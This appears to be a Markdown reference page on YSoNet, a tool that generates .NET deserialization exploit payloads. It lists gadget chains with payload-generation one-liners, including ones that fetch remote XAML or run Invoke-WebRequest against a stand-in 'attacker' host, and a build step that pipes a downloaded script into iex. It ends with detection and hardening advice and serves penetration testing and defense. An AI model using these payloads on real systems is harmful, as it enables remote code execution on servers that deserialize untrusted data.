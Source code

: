 ```
Below is a condensed reference of the most useful chains shipped with *YSoNet* together with a quick explanation of how they work and example commands to generate the payloads.

| Gadget Chain | Key Idea / Primitive | Common Serializers | YSoNet one-liner |
|--------------|----------------------|--------------------|------------------|
| **TypeConfuseDelegate** | Corrupts the `DelegateSerializationHolder` record so that, once materialised, the delegate points to *any* attacker supplied method (e.g. `Process.Start`) | `BinaryFormatter`, `SoapFormatter`, `NetDataContractSerializer` | `ysonet.exe TypeConfuseDelegate "calc.exe" > payload.bin` |
| **ActivitySurrogateSelector** | Abuses `System.Workflow.ComponentModel.ActivitySurrogateSelector` to *bypass .NET ≥4.8 type-filtering* and directly invoke the **constructor** of a provided class or **compile** a C# file on the fly | `BinaryFormatter`, `NetDataContractSerializer`, `LosFormatter` | `ysonet.exe ActivitySurrogateSelectorFromFile ExploitClass.cs;System.Windows.Forms.dll > payload.dat` |
| **DataSetOldBehaviour** | Leverages the **legacy XML** representation of `System.Data.DataSet` to instantiate arbitrary types by filling the `<ColumnMapping>` / `<DataType>` fields (optionally faking the assembly with `--spoofedAssembly`) | `LosFormatter`, `BinaryFormatter`, `XmlSerializer` | `ysonet.exe DataSetOldBehaviour "<DataSet>…</DataSet>" --spoofedAssembly mscorlib > payload.xml` |
| **GetterCompilerResults** | On WPF-enabled runtimes (> .NET 5) chains property getters until reaching `System.CodeDom.Compiler.CompilerResults`, then *compiles* or *loads* a DLL supplied with `-c` | `Json.NET` typeless, `MessagePack` typeless | `ysonet.exe GetterCompilerResults -c Loader.dll > payload.json` |
| **ObjectDataProvider** (review) | Uses WPF `System.Windows.Data.ObjectDataProvider` to call an arbitrary static method with controlled arguments.  YSoNet adds a convenient `--xamlurl` variant to host the malicious XAML remotely | `BinaryFormatter`, `Json.NET`, `XAML`, *etc.* | `ysonet.exe ObjectDataProvider --xamlurl http://attacker/o.xaml > payload.xaml` |
| **PSObject (CVE-2017-8565)** | Embeds `ScriptBlock` into `System.Management.Automation.PSObject` that executes when PowerShell deserialises the object | PowerShell remoting, `BinaryFormatter` | `ysonet.exe PSObject "Invoke-WebRequest http://attacker/evil.ps1" > psobj.bin` |

> [!TIP]
> All payloads are **written to *stdout*** by default, making it trivial to pipe them into other tooling (e.g. ViewState generators, base64 encoders, HTTP clients).

### Building / Installing YSoNet

If no pre-compiled binaries are available under *Actions ➜ Artifacts* / *Releases*, the following **PowerShell** one-liner will set up a build environment, clone the repository and compile everything in *Release* mode:

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force;
[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072;
iex ((New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1'));
choco install visualstudio2022community visualstudio2022-workload-nativedesktop msbuild.communitytasks nuget.commandline git --yes;

git clone https://github.com/irsdl/ysonet
cd ysonet
nuget restore ysonet.sln
msbuild ysonet.sln -p:Configuration=Release
```
```
The compiled `ysonet.exe` can then be found under `ysonet/bin/Release/`.

### Detection & Hardening
* **Detect** unexpected child processes of `w3wp.exe`, `PowerShell.exe`, or any process deserialising user-supplied data (e.g. `MessagePack`, `Json.NET`).
* Enable and **enforce type-filtering** (`TypeFilterLevel` = *Full*, custom `SurrogateSelector`, `SerializationBinder`, *etc.*) whenever the legacy `BinaryFormatter` / `NetDataContractSerializer` cannot be removed.
```